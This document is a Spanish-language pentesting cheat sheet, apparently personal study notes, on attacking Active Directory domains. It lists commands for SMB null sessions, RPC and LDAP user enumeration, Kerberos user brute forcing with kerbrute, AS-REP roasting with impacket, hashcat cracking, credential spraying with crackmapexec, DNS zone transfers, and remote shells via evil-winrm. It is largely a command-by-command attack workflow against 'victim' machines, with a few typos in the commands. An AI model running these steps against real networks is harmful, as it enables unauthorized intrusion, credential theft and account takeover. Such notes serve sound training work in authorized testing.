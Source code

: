 ![[ActiveDirectory.png]]

---

![[Pasted image 20230302212154.png]]

##### Un "domain" en Active Directory es un grupo de computadores y usuarios que comparten una base de datos centralizada de información de seguridad y configuración. Es como una especie de "club" en el que las pc's y users se registran y comparten recursos y permisos de acceso, lo que les permite trabajar juntos de manera más eficiente y segura. El admin 
##### (Domain Controler) del domio puede establecer políticas y configs para todas las pc's y users dentro del dominio, lo que facilita la gestión de la red. 
##### El "Active Directory" contiene informacipón sobre todos los objetos de seguridad del dominio, incluidos users, grupos, pc's y recursos compartidos.

----
- ### Enumerar puerto 445 (default) ( #SMB ) 

```shell
crackmapexec smb {taget_ip}
# Obtener información de la maquina victima, esto puede devolvernos el nombre de la maquina, dominios, version de windows, etc (Dominios al /etc/hosts)
crackmapexec smb {target_ip0} --shares
# Intentar enumerar recursos compartidos a nivel de red
smbmap -H {target_ip} -u "null"java
# Otra alternativa para intentar enumerar recursos compartidos a nivel de red y como no tenemos credenciales especificando -u "null" o no poniendo esto estamos intentando hacerlo con una null sesion.
smbclient -L {target_ip} -N
# Otra alternatica para de nuevo intentar enumerar recursos compartidos a nivel de red, -N (Null sesion)
smbclient //{target_ip}/{recurso_name} -N 
# Conectarse a un recurso compartido a nivel de red con Null session 
# Una vez conectado, podriamos listar los recursos # shares, # use {recurso}, # ls, # get 
crackmapexec smb {target_ip} -u users.txt -p "password" --continue-on-success
# Realizar fuerza bruta de validacion de credenciales para un grupo de usuarios

# Muchas veces, en los servicios smb tenemos muchas carpetas y el ir moviendonos entre ellas y demás se vuelve más dificil, lo que podemos hacer es jugando con monturas traernos todas las carpetas a una ruta de nuestro sistema. Primero tendriamos que tener instalado el cifs-utils para mosteriormente ejecutar el sig comando: 
mount -t cifs //{target_ip}/{recurso} /our/path
# Tambien se puede intentar mostrar la montura de la sig manera:
mount -t cifs //{target_ip}/{recurso} /our/path -o username=null,password=null,domain=,rw
# Y para desmontar la montura 
umount /our/path
```

- ### Puerto 135 (default) ( #RPC )

```shell
rpcclient -U "" {target_ip} -N
# Si nos devuelve "rpcclient $>" podriamos intentar enumerar usuarios (enumdomusers) del DA para intentar realizar ataques como "AS-REP Roast" 
rpcclient -U "user%password" {target_ip} -N
# Esto con "rpcclient $> enumdomusers" devolveria por ejemplo algo como:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
# Devuelve a los usuarios junto a su rid
rpcclient $> enumdomgroups
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
# Devuelve los grupos junto a su rid 
rpcclient $> querygroupmem {rid} 0x200
rid:[0x1f4] attr:[0x7]
# Esto devuelve todos los usuarios pertenecientes a dicho grupo
rpcclient $> queryuser {rid} 0x1f4
# Esto devuelve los datos del usuario consultado 
rpcclient $> querydispinfo
# Devuelve las descripciones de los grupos 
```

**Descripción:** Un ataque AS-REP Roast es un tipo de ataque de seguridad informático contra el protocolo Kerberos. Este ataque se acontece cuando uno de los Usuarios del Dominio tiene seteado el Atributo **UF_DONT_REQ_PREAUTH** lo que le permite solicitar un TGT a Kerberos (KDC) sin necesidad de proporcionar contraseña. En este mismo TGT se encuentra el Hash NTLMv2 del usuario en cuestion, que luego podriamos intentar crackear con fuerza bruta para obtener la contraseña del usuario.

- ### Puerto 389 (default) ( #LDAP ) 

```shell
ldapsearch -H "ldap://{target_ip}" -x -s base namingcontexts
# Enumerar servicio ldap, en este caso, namingcontexts
ldapsearch -H "ldap://{target_ip}" -x -b {naming_context}
# Enumerar el servicio ldap
ldapsearch -H ldap://{target_ip}/ -x -D 'user@domain' -w 'password' -b "DC=subdomain,DC=tld"
# Corroborar credenciales validas
ldapsearch -H ldaps://{target_ip}/ -x -s base -b '' "(objectClass=*)" "*" +  
# Anonymous access
#################################################################################
nmap -n -sV --script "ldap* and not brute" -p 389 {target_ip}
# Manera alternatica de enumerar el servicio ldap

```

- ##### Más enumeración de LDAP con ldap search en 
##### https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap

- ### Puerto 88 (default) ( #KERBEROS )

##### SecLists/Usernames/xato-net-10-million-usernames.txt ---> Para fuerza bruta

###### Existen herramientas como kerbrute https://github.com/ropnop/kerbrute las cuales nos permiten hacer fuerza bruta hacia kerberos 
- ##### Flujo de interno de #Kerberos [[Kerberos_Authentication_Flow.canvas]]

##### Esto siempre puede ser enlazado con las enumeraciones anteriores, por ejemplo si al enumerar el #ldap vemos que se enumera un namingcontext que puede ser de un usuario como "Owen Bonoris" podriamos pensar de que este sea un usuario valido y comenzar a ingresar combinaciones posibles como usuario:

- owen.bonoris
- owenb
- bowen
- bonoris.o
- obonoris
- o.bonoris
- owen.b
- b.owen

##### etc.  Estas convinaciones podrian ser guardadas en un archivo, por ejemplo users.txt y de esta menera haciendo uso de kerbrute realizar fuerza burta

```shell
kerbrute userenum --dc {target_ip} -d {domain_name} users.txt
# Fuerza bruta al domain de nuestra maquina victima intentando enumerar usuarios validos de ldomain en base a una wordlists de usuarios
impacket-GetNPUsers {domain_name}/ -no-pass -usersfile users.txt
# Esto es para con unos ciertos usuarios probar conseguir el hash NetNTLMv2 pero tambien podria ser usado para fuerza bruta ya que devolveria en caso de conseguir un usuario existente un output diferente.
# Si el usuario no exsite [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database), si el usuario existe [-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set

```

##### Una vez que tuvieramos usuarios tambien podriamos pensar en un *AS-REP Roast Attack*  pero como kerbrute ya lo hace de manera interna, si no vemos en el output un hash quiere decir que el usuario no tiene configurado el *UF_DONT_REQUIRE_PREAUTH*, por lo que no podemos obtener el hash NetNTLMv2.

##### En caso de tener un hash, podriamos usar la herramienta "hashcat" para intentar romper el hash, para esto es importante saber el modo del hash al que nos enfrentamos, por ejemplo, si el hash que capturaramos fuede `$krb5asrep$23$user@domain.com:378sh129fsdf8sdf7...`  podriamos buscar con el comando hashcat --example-hashes y filtradon por el "krb5asrep" (`hashcat --example-hashes | grep -B 11 "krb5asrep"`) para poder conseguir asi el modo que sera utilizado posteriormente con la herramienta "hashcat"
#### `hashcat -m {hash_mode} -a {attack_mode} hash rockyou.txt`
##### Para obtener el hash mode, `hashcat --example-hashes` 

###### En caso de lograr crackear el hash NetNTLMv2, indicaria que podriamos tener credenciales validas, esto lo podemos corroborar con la herramienta "crackmapexec": 
##### (`crackmapexec smb {target_ip} -u {username} -p {password}`)
##### De esta manera, en caso de obtener un "[+]" indicaria de que las mismas son validas, aunque para poder obtener una shell interactiva buscamos que al usuario le aparezca un "Pwn3d!" para poder usar xexec y intentar ganar acceso al sistema, en caso de que no, podriamos en caso de tener el puerto 5985 ( #SSDP / #UPnP) (Servicio de administración remota de windows)
##### De manera que podriamos verificar si el usuario en cuestion pertenece al grupo "Remote Managment Users" los cuales pueden conectarse de manera remota:
##### (`crackmapexec winrm {target_ip} -u {username} -p {password}`)
##### En caso de obtener el glorioso "Pwn3d!", podriamos con herramientas como "evil-winrm",  entablar una consola remota.
##### `evil-winrm -i {target_ip} -u {username} -p {password}`

- ### Puerto 53 (default) ( #Domain )

##### Podriamos emitirs solicitudes DNS para ver si podemos aplicar un DNS zone transfer (AXFR) con la herramienta dig

```shell
dig @{target_ip} {domain_name} ns
# Emitir solicitudes para enumerar Name Servers
dig @{target_ip} {domain_name} mx 
# Emitir solicitudes para enumerar servidores de correo
dig @{target_ip} {domain_name} axfr
# Probar un DNS Zone Trasfer
```

- ### Puerto 5985 (default) ( #WinRM ) 

##### Puerto que suele correr el Servicio de administración remota de windows, el cual al estar activo, podria permitirnos posteriormente intentar con utilidades como crackmapexec, ver si un usuario con credenciales pertenece al grupo "Remote Managament Users".